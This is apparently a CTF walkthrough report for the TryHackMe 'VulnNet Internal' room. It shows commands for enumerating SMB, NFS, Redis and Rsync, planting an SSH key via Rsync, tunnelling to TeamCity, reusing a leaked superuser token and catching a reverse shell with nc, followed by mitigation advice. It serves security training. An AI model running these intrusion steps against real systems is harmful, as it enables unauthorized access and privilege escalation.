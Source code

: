 # VulnNet Internal – TryHackMe VAPT Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** September 07, 2025  
**Difficulty:** Easy/Medium  
**Category:** Internal Services / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open ports, services, and potential vulnerabilities.
- **Commands Used:**  
  ```bash
  nmap -sC -sV -A -Pn <target_ip>
  ```
- **Findings:**
  - Open ports: SSH (22), RPC (111), NetBIOS (139, 445), Rsync (873), NFS (2049), Zeus Admin (9090 filtered).
  - Services: OpenSSH 7.6p1 Ubuntu, Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP), Rsync (protocol 31), NFS 3-4.
  - SMB enumeration revealed shares: `print$`, `shares` (with subdirectories `temp` and `data`).
  - NFS export allowed mounting of `/opt/conf` directory, exposing configuration files including `redis.conf`.
  - Redis configuration revealed password: `B65Hx562F@ggAZ@F`.
  - Redis keys: `marketlist`, `authlist`, `internal flag`, `tmp`, `int`.

---

## 2. Exploitation Process

### Step 1 – SMB Share Enumeration
- Accessed anonymous SMB share `//<target_ip>/shares` using `smbclient`.
- Navigated to `temp` subdirectory and downloaded `services.txt`, containing the first flag.

### Step 2 – NFS Mount and Redis Enumeration
- Mounted NFS share:  
  ```bash
  sudo mkdir tmp/
  sudo mount -t nfs <target_ip>: tmp/
  ```
- Explored mounted filesystem (`tmp/opt/conf/redis/redis.conf`) to extract Redis password.
- Connected to Redis:  
  ```bash
  redis-cli -h <target_ip> -a "B65Hx562F@ggAZ@F"
  ```
- Listed keys (`KEYS *`) and retrieved the internal flag from key `"internal flag"`.

### Step 3 – Rsync Authentication and User Access
- From Redis `authlist` key (list type), extracted Base64-encoded credentials using `LRANGE authlist 1 100`.
- Decoded Base64:  
  ```bash
  echo "<base64_string>" | base64 -d
  ```
- Revealed Rsync credentials: `rsync-connect:Hcg3HP67@TW@Bc72v`.
- Listed Rsync modules:  
  ```bash
  rsync --list-only rsync://<target_ip>
  ```
- Accessed `files/sys-internal` module, revealing user home directory contents including `user.txt`.

### Step 4 – SSH Key Setup for User Access
- Generated SSH public key and synced it to target via Rsync:  
  ```bash
  cp ~/.ssh/id_rsa.pub authorized_keys
  rsync authorized_keys rsync://rsync-connect@<target_ip>/files/sys-internal/.ssh/
  ```
- Gained SSH access as `sys-internal`:  
  ```bash
  ssh sys-internal@<target_ip>
  ```
- Retrieved `user.txt` flag from home directory.

### Step 5 – Internal Service Discovery
- Enumerated listening ports:  
  ```bash
  ss -ltp
  ```
- Identified TeamCity running on localhost:8111.
- Set up SSH port forwarding:  
  ```bash
  ssh -L 8111:127.0.0.1:8111 sys-internal@<target_ip>
  ```
- Accessed TeamCity login page via forwarded port.

### Step 6 – TeamCity Super User Token Exploitation
- Searched logs for tokens:  
  ```bash
  grep -iR token /TeamCity/logs/ 2>/dev/null
  ```
- Extracted super user authentication token (e.g., `8446629153054945175`).
- Logged into TeamCity using empty username and token as password.
- Created a new build agent configuration and uploaded a reverse shell payload.
- Triggered build to execute reverse shell:  
  Listener: `nc -nlvp 4444`
- Gained root shell and retrieved `root.txt` flag from `/root/`.

---

## 3. Proof of Concept (PoC)

- **SMB Share Access:**  
  ```bash
  smbclient //10.10.233.179/shares
  cd temp
  get services.txt
  ```
  Downloaded file containing first flag.
- **NFS Mount and Redis Access:**  
  ```bash
  sudo mount -t nfs <target_ip>: tmp/
  redis-cli -h <target_ip> -a "B65Hx562F@ggAZ@F"
  KEYS *
  GET "internal flag"
  ```
  Retrieved internal flag.
- **Rsync Enumeration and SSH Setup:**  
  ```bash
  rsync --list-only rsync://rsync-connect@<target_ip>/files/sys-internal/
  rsync authorized_keys rsync://rsync-connect@<target_ip>/files/sys-internal/.ssh/
  ssh sys-internal@<target_ip>
  ```
  Gained user access and retrieved `user.txt`.
- **TeamCity Exploitation:**  
  ```bash
  ssh -L 8111:127.0.0.1:8111 sys-internal@<target_ip>
  # Access http://localhost:8111, login with token
  # Upload reverse shell and trigger build
  nc -nlvp 4444
  ```
  Gained root shell and retrieved `root.txt`.

---

## 4. Privilege Escalation

- Exploited Redis `authlist` for Rsync credentials to access user home via Rsync.
- Synced SSH public key to gain persistent user access as `sys-internal`.
- Used SSH port forwarding to access internal TeamCity (localhost:8111).
- Leveraged super user token from logs to authenticate in TeamCity, configure malicious build agent, and execute reverse shell for root access.

---

## 5. Mitigation Recommendations

- **SMB/NFS Hardening:**  
  - Disable anonymous access to SMB shares and restrict NFS exports to trusted IPs.
  - Use strong authentication and firewall rules to limit service exposure.
- **Redis Security:**  
  - Bind Redis to localhost only and enforce strong, unique passwords.
  - Disable dangerous commands (e.g., via `rename-command`) and avoid storing sensitive data in keys.
- **Rsync Protection:**  
  - Use SSH tunneling for Rsync and implement strong module passwords.
  - Restrict module access to authorized users and monitor for unauthorized listings.
- **SSH Key Management:**  
  - Enforce strict permissions on `.ssh/authorized_keys` and disable passwordless key uploads.
  - Use key-based authentication with passphrases and monitor SSH logs.
- **Internal Service Security:**  
  - Firewall internal ports (e.g., 8111) to prevent port forwarding abuse.
  - Secure TeamCity with strong admin credentials, token rotation, and log monitoring to prevent token exposure.
- **General Hardening:**  
  - Regularly update services (e.g., Samba, OpenSSH) and conduct privilege audits.
  - Implement logging, alerting, and least-privilege principles for all users and services.

---

## 6. Lessons Learned

- **Exposed Internal Services:** Anonymous SMB/NFS access can leak configuration files and credentials.
- **Misconfigured Databases:** Storing auth data in Redis without encryption enables easy extraction.
- **Rsync Vulnerabilities:** Weak module protections allow directory traversal and credential syncing.
- **Port Forwarding Risks:** Internal services like TeamCity are vulnerable via SSH tunneling if logs expose tokens.
- **Build Agent Exploitation:** CI/CD tools like TeamCity can execute arbitrary code if super user access is compromised.

---

## 7. Skills Practiced

- Network scanning (`nmap`)
- SMB/NFS enumeration and mounting
- Redis querying and data extraction
- Base64 decoding and Rsync exploitation
- SSH key management and port forwarding
- TeamCity super user token exploitation and reverse shell deployment
- Secure reporting and mitigation strategies
